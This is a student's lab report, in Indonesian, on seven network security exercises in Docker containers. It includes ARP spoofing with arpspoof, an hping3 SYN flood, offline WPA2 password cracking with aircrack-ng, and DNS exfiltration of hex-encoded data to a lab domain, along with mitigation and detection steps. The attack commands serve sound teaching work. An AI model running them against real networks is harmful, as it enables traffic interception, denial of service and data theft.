/># LAPORAN UTS NETWORK SECURITY
## Kasus 8 (K8) — Dokumentasi Tugas 1–7

**Nama:** Revin Erdiansyah
**NIM:** 24552011387
**Program Studi:** Teknik Informatika
**Kelas:** TIF RP 24E CNS
**Mata Kuliah:** Network Security

---

# Parameter Praktikum

| Parameter | Nilai |
|---|---|
| Container target | `target-k8` |
| Volume | `vol-k8` |
| File | `laporan-k8.txt` |
| Domain DNS | `k8.exfil.lab` |
| Penentuan kasus | Jumlah digit NIM 38, 38 mod 10 = 8, sehingga Kasus 8 |

**Catatan:** Seluruh pengujian dilakukan pada lingkungan lab praktikum. NIM yang digunakan dalam pengujian adalah `24552011387`. Hasil dan analisis ditulis berdasarkan keluaran terminal pada screenshot; bagian yang tidak terbukti dinyatakan apa adanya.

---

# TUGAS 1 — DOCKER DAN VOLUME
## Pertemuan 1

### 1. Tujuan

Membuktikan bahwa data pada Docker Volume tetap ada walaupun container yang menulisnya sudah dihapus, serta menjalankan dua container (attacker dan target) dengan Docker Compose yang saling berkomunikasi lewat jaringan internal.

### 2. Perintah dan penjelasan

```bash
docker volume create vol-k8
docker run --name w-k8 -v vol-k8:/data alpine sh -c 'echo 24552011387 > /data/laporan-k8.txt'
docker rm w-k8
docker run --rm -v vol-k8:/data alpine cat /data/laporan-k8.txt
docker compose -p k8 -f 01-sumber-lab/b/b1-compose/docker-compose.yml up -d
docker compose -p k8 -f 01-sumber-lab/b/b1-compose/docker-compose.yml exec attacker wget -qO- http://target
docker compose -p k8 -f 01-sumber-lab/b/b1-compose/docker-compose.yml down -v
```

- `docker volume create vol-k8` membuat volume bernama `vol-k8` sebagai penyimpanan yang terpisah dari siklus hidup container.
- `docker run --name w-k8 -v vol-k8:/data alpine sh -c 'echo ... > /data/laporan-k8.txt'` menjalankan container Alpine, memasang volume ke `/data`, lalu menulis NIM ke `laporan-k8.txt`.
- `docker rm w-k8` menghapus container penulis. Yang dihapus hanya container-nya, bukan volume.
- `docker run --rm -v vol-k8:/data alpine cat /data/laporan-k8.txt` memakai container baru untuk membaca file yang sama dari volume.
- `docker compose ... up -d` menjalankan container `attacker` dan `target` pada jaringan `k8_lab`.
- `exec attacker wget -qO- http://target` mengambil halaman web target dari container attacker memakai nama layanan `target`.
- `docker compose ... down -v` menghentikan dan menghapus container, jaringan, serta volume yang dibuat Compose.

### 3. Bukti Praktikum

**Screenshot 1:** Pembuatan volume `vol-k8`.



**Screenshot 2:** Container `w-k8` menulis NIM ke `/data/laporan-k8.txt` pada volume.



**Screenshot 3:** Container penulis `w-k8` dihapus.



**Screenshot 4:** Container baru membaca file dari volume dan menampilkan NIM `24552011387`.



**Screenshot 5:** Docker Compose membuat jaringan `k8_lab` serta container `k8-attacker-1` dan `k8-target-1`.



**Screenshot 6:** Container attacker berhasil mengambil halaman `Welcome to nginx!` dari target.



**Screenshot 7:** Compose `down -v` menghapus kedua container dan jaringan.



### 4. Hasil Pengujian

1. Volume `vol-k8` berhasil dibuat dan file `laporan-k8.txt` berhasil ditulis.
2. Setelah container `w-k8` dihapus, container baru tetap bisa membaca isi file dan menampilkan `24552011387`. Data bertahan karena tersimpan di volume.
3. Docker Compose membuat jaringan `k8_lab` dan dua container (`k8-attacker-1`, `k8-target-1`) dalam status Started.
4. Container attacker berhasil mengakses `http://target` dan menerima halaman default Nginx, sehingga komunikasi antarcontainer berjalan.
5. Perintah `down -v` menghapus kedua container dan jaringan `k8_lab`.

### 5. Kesimpulan

Docker Volume memisahkan penyimpanan data dari container sehingga data tetap ada setelah container dihapus. Docker Compose memudahkan pengelolaan beberapa container sekaligus dan memungkinkan komunikasi antarcontainer lewat nama layanan.

---

# TUGAS 2 — KRIPTOGRAFI
## Pertemuan 2

### 1. Tujuan

Menguji hash SHA-256, enkripsi dan dekripsi AES-256-CBC, serta pembuatan sertifikat digital self-signed menggunakan OpenSSL.

### 2. Perintah dan penjelasan

```bash
docker run --rm -v "$PWD":/work uts-openssl sh -c 'echo isi laporan k8 > laporan-k8.txt && openssl enc -aes-256-cbc -pbkdf2 -salt -in laporan-k8.txt -out laporan-k8.enc -pass pass:kunci-k8-2026 && sha256sum laporan-k8.txt && openssl enc -d -aes-256-cbc -pbkdf2 -in laporan-k8.enc -out hasil-k8.txt -pass pass:kunci-k8-2026 && sha256sum hasil-k8.txt'

docker run --rm -v "$PWD":/work uts-openssl sh -c 'openssl req -x509 -newkey rsa:2048 -nodes -keyout key-k8.pem -out cert-k8.pem -days 30 -subj /CN=k8.uts.local && openssl x509 -in cert-k8.pem -noout -subject -issuer -dates'
```

- `openssl enc -aes-256-cbc -pbkdf2 -salt` mengenkripsi `laporan-k8.txt` menjadi `laporan-k8.enc` dengan AES-256 mode CBC, derivasi kunci PBKDF2, dan salt acak.
- `sha256sum laporan-k8.txt` menghitung hash file asli sebagai sidik jari integritas.
- `openssl enc -d ...` mendekripsi `laporan-k8.enc` menjadi `hasil-k8.txt`, lalu `sha256sum hasil-k8.txt` dihitung untuk dibandingkan.
- `openssl req -x509 -newkey rsa:2048 -nodes` membuat kunci privat RSA 2048-bit dan sertifikat self-signed `cert-k8.pem` berlaku 30 hari dengan `CN=k8.uts.local`.
- `openssl x509 -noout -subject -issuer -dates` menampilkan Subject, Issuer, serta masa berlaku sertifikat.

### 3. Bukti Praktikum

**Screenshot 1:** Enkripsi, dekripsi, dan dua hash SHA-256.


**Screenshot 2:** Pembuatan sertifikat dan pemeriksaan Subject, Issuer, serta masa berlaku.


### 4. Hasil Pengujian

1. Hash SHA-256 file asli (`laporan-k8.txt`) dan hasil dekripsi (`hasil-k8.txt`) sama persis: `e26ef77c5ac16543d232d3bd3c0663aaa8550290b217a8a6925671d37a4264f7`. Artinya isi file kembali utuh setelah enkripsi dan dekripsi.
2. Sertifikat berhasil dibuat. `subject=CN=k8.uts.local` dan `issuer=CN=k8.uts.local`; keduanya sama karena sertifikat ditandatangani sendiri.
3. Masa berlaku: `notBefore=Nov 19 08:19:10 2026 GMT` sampai `notAfter=Dec 19 08:19:10 2026 GMT`, yaitu 30 hari.

### 5. Kesimpulan

SHA-256 dapat dipakai untuk memeriksa integritas file, AES untuk menjaga kerahasiaan data, dan sertifikat digital untuk menyatakan identitas. Sertifikat self-signed cukup untuk lab, tetapi tidak dipercaya publik karena tidak diterbitkan oleh otoritas sertifikat (CA).

---

# TUGAS 3 — ARP SPOOFING
## Pertemuan 3

### 1. Tujuan

Menjalankan ARP spoofing pada jaringan Docker terisolasi, mengamati tabel ARP korban, lalu menerapkan mitigasi berupa static ARP.

### 2. Perintah dan penjelasan

```bash
docker network create lab-arp-k8
docker run -d --name korban-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name gateway-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
docker run -d --name penyerang-k8 --network lab-arp-k8 --cap-add NET_ADMIN uts-kali-tools
docker inspect -f '{{.Name}} {{(index .NetworkSettings.Networks "lab-arp-k8").IPAddress}}' korban-k8 gateway-k8 penyerang-k8
docker exec korban-k8 arp -a
docker exec penyerang-k8 timeout 20 arpspoof -i eth0 -t 172.20.0.2 172.20.0.3
docker exec korban-k8 arp -a
docker exec korban-k8 arp -s 172.20.0.1 $(docker exec gateway-k8 cat /sys/class/net/eth0/address)
docker exec korban-k8 arp -a
```

- `docker network create lab-arp-k8` membuat jaringan bridge khusus untuk pengujian.
- Tiga container (`korban-k8`, `gateway-k8`, `penyerang-k8`) dibuat dari image `uts-kali-tools` dengan kemampuan `NET_ADMIN` agar bisa mengubah konfigurasi jaringan.
- `docker inspect -f ...` menampilkan alamat IP masing-masing container.
- `arp -a` pada korban menampilkan tabel ARP, yaitu pemetaan IP ke alamat MAC.
- `arpspoof -i eth0 -t 172.20.0.2 172.20.0.3` mengirim balasan ARP palsu ke korban yang menyatakan IP gateway berada pada MAC penyerang.
- `arp -s <ip> <mac>` membuat entri ARP statis (PERM) agar tidak bisa ditimpa oleh balasan ARP palsu.

### 3. Bukti Praktikum

**Screenshot 1:** Pembuatan jaringan `lab-arp-k8`.



**Screenshot 2:** Container `korban-k8` berjalan.



**Screenshot 3:** Container `gateway-k8` berjalan.



**Screenshot 4:** Container `penyerang-k8` berjalan.



**Screenshot 5:** Alamat IP ketiga container: korban `172.20.0.2`, gateway `172.20.0.3`, penyerang `172.20.0.4`.



**Screenshot 6:** Tabel ARP korban sebelum serangan.



**Screenshot 7:** Pemeriksaan ulang IP gateway, penyerang, dan korban satu per satu.



**Screenshot 8:** `arpspoof` dijalankan dari penyerang menuju korban selama 20 detik.



**Screenshot 9:** Tabel ARP korban setelah `arpspoof`.



**Screenshot 10:** Pemasangan entri ARP statis di korban.



**Screenshot 11:** Tabel ARP korban setelah mitigasi static ARP.



### 4. Hasil Pengujian

1. Ketiga container berada pada jaringan `lab-arp-k8` dengan IP `172.20.0.2` (korban), `172.20.0.3` (gateway), dan `172.20.0.4` (penyerang).
2. `arpspoof` berhasil mengirim balasan ARP palsu secara berulang. Keluarannya menunjukkan `172.20.0.3 is-at c6:99:0:70:b1:45` (MAC penyerang). Saat berhenti, `arpspoof` memulihkan target dengan balasan `172.20.0.3 is-at 76:f0:e2:2e:eb:23` (MAC asli gateway).
3. Tabel ARP korban pada tiga waktu pengamatan (sebelum serangan, setelah serangan, setelah mitigasi) hanya menampilkan satu entri: `172.20.0.1 at 76:f0:e2:2e:eb:23 [ether] PERM on eth0`. Entri `172.20.0.3` tidak muncul pada tabel, sehingga perubahan MAC gateway menjadi MAC penyerang **tidak tertangkap** pada bukti ini.
4. Perintah `arp -s` pada bukti dijalankan untuk IP `172.20.0.1` dengan MAC gateway-k8, sedangkan sasaran spoofing adalah `172.20.0.3`. Karena itu bukti ini membuktikan cara kerja pembuatan entri statis (status `PERM`), tetapi belum membuktikan bahwa entri `172.20.0.3` yang diracuni berhasil dipulihkan.

### 5. Kesimpulan

ARP tidak memiliki mekanisme autentikasi sehingga balasan ARP palsu dapat dikirim dengan mudah, dan `arpspoof` terbukti mengirimkannya. Entri ARP statis (`PERM`) adalah mitigasi sederhana karena tidak akan ditimpa balasan ARP baru. Namun, pada bukti ini perubahan pemetaan gateway di tabel korban tidak terekam, sehingga dampak serangan tidak bisa dinyatakan terbukti.

---

# TUGAS 4 — ANALISIS HANDSHAKE WPA2
## Pertemuan 4

### 1. Tujuan

Menganalisis file capture handshake WPA2 dengan aircrack-ng menggunakan wordlist yang disediakan, serta memahami empat langkah four-way handshake.

### 2. Perintah dan penjelasan

```bash
docker run --rm -v "$PWD":/work uts-kali-tools aircrack-ng -w wordlist-k8.txt handshake-k8.cap
```

- `-v "$PWD":/work` memasang folder kerja (berisi `wordlist-k8.txt` dan `handshake-k8.cap`) ke dalam container.
- `aircrack-ng -w wordlist-k8.txt handshake-k8.cap` membaca file capture dan mencoba setiap kata sandi di wordlist terhadap handshake yang ditemukan.

### 3. Penjelasan Four-Way Handshake

Four-way handshake membuktikan bahwa client dan access point (AP) sama-sama mengetahui PSK tanpa mengirim PSK itu sendiri.

1. **Message 1 (AP ke client):** AP mengirim ANonce (angka acak dari AP).
2. **Message 2 (client ke AP):** Client mengirim SNonce, lalu menurunkan PTK dari PSK, ANonce, SNonce, dan alamat MAC kedua pihak. Pesan ini disertai MIC.
3. **Message 3 (AP ke client):** AP menurunkan PTK yang sama, memverifikasi MIC, lalu mengirim GTK yang terenkripsi beserta MIC.
4. **Message 4 (client ke AP):** Client mengonfirmasi bahwa kunci sudah terpasang.

Penyerang yang menangkap handshake dapat mencoba menebak PSK secara offline dengan menurunkan PTK dari setiap kandidat kata sandi dan mencocokkan MIC. Karena itu kata sandi yang panjang dan acak sangat penting.

### 4. Bukti Praktikum

**Screenshot 1:** Keluaran `aircrack-ng` pada file `handshake-k8.cap`.



### 5. Hasil Pengujian

1. `aircrack-ng` menampilkan `This file is not a regular 802.11 (wireless) capture`, `Read 0 packets`, dan `No networks found, exiting`.
2. Karena tidak ada jaringan atau handshake yang terbaca dari file tersebut, tidak ada tahap pencocokan kata sandi yang dijalankan. Pesan `KEY FOUND` maupun `KEY NOT FOUND` tidak muncul.
3. Dengan demikian, kata sandi WPA2 **tidak** berhasil ditemukan pada bukti ini, dan hasil tersebut tidak dapat dianggap sebagai kegagalan wordlist karena file capture memang tidak terbaca sebagai capture 802.11.

### 6. Kesimpulan

Perintah `aircrack-ng` berjalan, tetapi file `handshake-k8.cap` yang digunakan tidak terbaca sebagai capture 802.11 sehingga tidak ada handshake yang dapat dianalisis. Praktikum ini tetap menunjukkan syarat analisis handshake: file capture harus berisi paket WPA yang valid. Penjelasan four-way handshake di atas melengkapi pemahaman konsepnya.

---

# TUGAS 5 — ICMP DENGAN SCAPY
## Pertemuan 5

### 1. Tujuan

Mengirim paket ICMP echo request memakai Scapy ke container korban lalu membaca TTL dan tipe ICMP pada balasan.

### 2. Perintah dan penjelasan

```bash
docker run --rm --network lab-arp-k8 -v "$PWD/kasus/k5-scapy:/work" uts-kali-tools python3 /work/kirim_icmp.py 172.20.0.2
```

- `--network lab-arp-k8` menghubungkan container sementara ke jaringan yang sama dengan korban.
- `-v "$PWD/kasus/k5-scapy:/work"` memasang folder skrip `kirim_icmp.py` ke dalam container.
- Skrip membuat paket `IP(dst=target)/ICMP()` lalu mengirimnya dengan `sr1()` dan membaca balasan pertama.
- Argumen `172.20.0.2` adalah IP `korban-k8` dari Tugas 3.

### 3. Penjelasan Smurf Attack

Smurf attack adalah serangan DDoS yang memanfaatkan ICMP echo request ke alamat broadcast dengan IP sumber dipalsukan sebagai alamat korban. Semua host pada jaringan broadcast tersebut membalas ke korban sehingga trafik ICMP berlipat dan korban kewalahan. Pencegahan yang umum: menonaktifkan balasan terhadap broadcast ICMP pada router dan host, serta menerapkan filter anti-spoofing.

### 4. Bukti Praktikum

**Screenshot 1:** Keluaran skrip Scapy: paket yang dikirim, TTL balasan, dan tipe ICMP balasan.



### 5. Hasil Pengujian

1. Paket yang dikirim: `IP / ICMP 172.20.0.5 > 172.20.0.2 echo-request 0`. Alamat sumber `172.20.0.5` adalah IP container sementara yang menjalankan skrip.
2. TTL balasan: `64`. Nilai ini umum untuk sistem Linux, yang mengindikasikan korban adalah host Linux yang berjarak satu lompatan.
3. Tipe ICMP balasan: `0`, yaitu **echo reply**. Ini berarti korban aktif dan merespons ping.

### 6. Kesimpulan

Scapy memungkinkan pembuatan dan pengiriman paket ICMP secara terprogram. Balasan bertipe 0 dengan TTL 64 membuktikan host target aktif. Mekanisme balasan ICMP inilah yang disalahgunakan pada smurf attack.

---

# TUGAS 6 — SYN FLOOD DAN THREE-WAY HANDSHAKE
## Pertemuan 6

### 1. Tujuan

Mengamati jumlah koneksi `SYN_RECV` pada target sebelum dan saat SYN flood dengan hping3, serta menangkap three-way handshake TCP normal dengan tcpdump.

### 2. Perintah dan penjelasan

```bash
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml up -d
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec -d attacker timeout 15 hping3 -S -p 80 --flood target
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec target netstat -ant | grep -c SYN_RECV
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml exec attacker sh -c 'timeout 10 tcpdump -i eth0 -nn tcp port 80 & sleep 1; curl -s http://target > /dev/null; sleep 10'
docker compose -p k8 -f b/b3-syn-flood/docker-compose.yml down -v
```

- `up -d` menjalankan container `attacker` dan `target` dari konfigurasi SYN flood.
- `netstat -ant | grep -c SYN_RECV` menghitung koneksi setengah terbuka (SYN diterima, ACK belum datang) pada target.
- `hping3 -S -p 80 --flood target` membanjiri port 80 target dengan paket SYN selama 15 detik (`timeout 15`), dijalankan di latar belakang (`exec -d`).
- `tcpdump -i eth0 -nn tcp port 80` menangkap paket TCP port 80 sementara `curl` melakukan satu koneksi normal.
- `down -v` membersihkan seluruh lingkungan.

### 3. Penjelasan TCP Three-Way Handshake

1. **SYN:** client mengirim paket dengan flag SYN untuk meminta koneksi.
2. **SYN-ACK:** server membalas dengan SYN dan ACK, lalu menyimpan koneksi pada status `SYN_RECV`.
3. **ACK:** client membalas ACK sehingga koneksi menjadi `ESTABLISHED`.

SYN flood mengirim banyak SYN (biasanya tanpa pernah mengirim ACK terakhir) agar tabel koneksi server dipenuhi entri `SYN_RECV` sampai koneksi sah tidak bisa dilayani.

### 4. Bukti Praktikum

**Screenshot 1:** Container `k8-attacker-1` dan `k8-target-1` berjalan.



**Screenshot 2:** Jumlah `SYN_RECV` sebelum serangan.



**Screenshot 3:** Perintah `hping3 -S -p 80 --flood target` dijalankan dari attacker.



**Screenshot 4:** Jumlah `SYN_RECV` setelah serangan dimulai.



**Screenshot 5:** Hasil `tcpdump`: SYN, SYN-ACK, ACK, lalu permintaan HTTP.



**Screenshot 6:** Pembersihan lingkungan dengan `down -v`.



### 5. Hasil Pengujian

1. Jumlah `SYN_RECV` sebelum serangan: `0`.
2. Jumlah `SYN_RECV` setelah `hping3` dijalankan: `1`. Kenaikan dari 0 ke 1 menunjukkan ada koneksi setengah terbuka, namun angka sekecil ini **belum membuktikan** target terganggu atau tabel koneksinya penuh.
3. `tcpdump` menangkap handshake normal dari `172.21.0.3.45036` ke `172.21.0.2.80`: `Flags [S]` (SYN), `Flags [S.]` (SYN-ACK), dan `Flags [.]` (ACK), diikuti `GET / HTTP/1.1` dan balasan `HTTP/1.1 200 OK`.

### 6. Kesimpulan

Three-way handshake pada koneksi normal terbukti lengkap (SYN, SYN-ACK, ACK) dan menghasilkan respons HTTP 200. Perintah SYN flood berhasil dijalankan, tetapi dampak gangguan terhadap target tidak terbukti karena `SYN_RECV` hanya naik menjadi 1.

---

# TUGAS 7 — DNS EXFILTRATION
## Pertemuan 7

### 1. Tujuan

Mensimulasikan pencurian data lewat query DNS (data dikodekan hex di label subdomain), lalu mendeteksinya dari log DNS dan mendekode kembali.

### 2. Perintah dan penjelasan

```bash
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml up -d
echo -n 24552011387 | xxd -p
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml exec attacker dig +short 3234353532303131333837.k8.exfil.lab @dns
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml logs dns > dns-k8.log
python3 kasus/k9-dns-detect/analisis_dns.py dns-k8.log
echo 3234353532303131333837 | xxd -r -p
docker compose -p k8 -f b/b4-dns-exfil/docker-compose.yml down -v
```

- `up -d` menjalankan server DNS (dnsmasq) dan container attacker pada jaringan `k8_lab`.
- `echo -n 24552011387 | xxd -p` mengubah NIM menjadi hex: `3234353532303131333837`.
- `dig +short <hex>.k8.exfil.lab @dns` mengirim query DNS dengan data sebagai label subdomain ke server DNS lab.
- `logs dns > dns-k8.log` menyimpan log server DNS ke file.
- `analisis_dns.py` menghitung query per domain induk dan menandai query dengan label panjang berisi hex.
- `xxd -r -p` mendekode hex kembali menjadi teks asli.

### 3. Bukti Praktikum

**Screenshot 1:** Lingkungan DNS exfiltration dijalankan (jaringan `k8_lab`, `k8-dns-1`, `k8-attacker-1`).



**Screenshot 2:** NIM dikonversi ke hex: `3234353532303131333837`.



**Screenshot 3:** Query `dig` dengan label hex dijawab server DNS dengan `10.0.0.99`.



**Screenshot 4:** Log DNS disimpan ke `dns-k8.log`.



**Screenshot 5:** Keluaran `analisis_dns.py`: jumlah query per domain induk dan daftar query mencurigakan.



**Screenshot 6:** Pembersihan lingkungan dengan `down -v`.



### 4. Hasil Pengujian

1. Hex dari NIM: `3234353532303131333837`. Query `3234353532303131333837.k8.exfil.lab` dijawab dengan `10.0.0.99`.
2. Log DNS berhasil disimpan ke `dns-k8.log`.
3. `analisis_dns.py` melaporkan `exfil.lab: 1` pada bagian jumlah query per domain induk, lalu menampilkan judul bagian `Query mencurigakan (label panjang berisi hex)`. Daftar isi bagian mencurigakan tidak terlihat pada screenshot, sehingga deteksi label hex di log tidak bisa dikonfirmasi dari bukti ini.
